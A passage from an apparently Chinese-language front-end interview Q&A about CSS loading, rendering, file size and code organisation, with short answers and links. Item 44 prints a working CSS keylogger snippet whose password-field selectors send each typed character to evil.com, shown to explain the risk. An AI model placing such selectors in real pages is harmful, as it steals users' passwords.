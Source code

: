 - 在link标签上设置media属性为低优先级的 print
  文档渲染后改为screen

- ~~~css
  <link rel="preload" href="cssfile.css" as="style" onload="this.rel='stylesheet'">
  ~~~

- [参考文章](https://www.cnblogs.com/cjx-work/p/8133858.html)

## 40.CSS的加载会阻塞DOM树解析和渲染吗？为什么

- CSS的加载不会阻止DOM树的解析
- CSS的加载会阻止DOM树的渲染，因为css的下载完成后解析成CSSOM与DOM生成渲染树后，页面才会渲染，绘制出来

## 41.CSS的加载会阻塞JS运行吗？为什么

会阻塞JS的执行，因为JS可能会去获取或改变元素的样式，所以浏览器为了不重复渲染，会等所有的CSS加载渲染完成后再执行JS。

## 42.为了减小CSS文件的大小，怎么去除无用CSS呢？有哪些方法

可以使用PurgeCSS插件进行清理，功能强大，可以配置webpack rollup等打包工具使用。

## 43.在一个项目里，你是如何组织(架构)CSS代码的

[你是如何去组织项目中的 Less/Sass 代码的？](https://www.zhihu.com/question/35708352?sort=created)

[浅谈网站CSS组织架构](https://www.cnblogs.com/linroom/articles/2362609.html)

## 44. 使用纯CSS能否监控到用户的一些信息？怎么实现

可以，著名的[css keylogger](https://github.com/maxchehab/CSS-Keylogging/blob/master/css-keylogger-extension/keylogger.css)：

```css
input[type="password"][value$="a"] {
  background-image: url("http://evil.com/api/a");
}

input[type="password"][value$="b"] {
  background-image: url("http://evil.com/api/b");
}

input[type="password"][value$="c"] {
  background-image: url("http://evil.com/api/c");
}

/* ...以此类推... */
```

当用户输入密码时，这段css会请求用户输入的字符对应的资源，远端服务器通过监视请求资源的顺序从而推断用户的密码。所以css也不是绝对安全的

## 45.请使用CSS3实现图片的平滑转换

以全局监听的方式通过 a 标签的描点进行 view 动态切换页面，只要把 a 标签带有 id 的 href 属性的值指到锚点，用 CSS3 的动画进行切换页面.

## 46.使用css画个钟表的时间刻度

```javascript
 <style>
      div {
        margin: 0;
        padding: 0;
        box-sizing: border-box;
      }
      .container {
  ~~~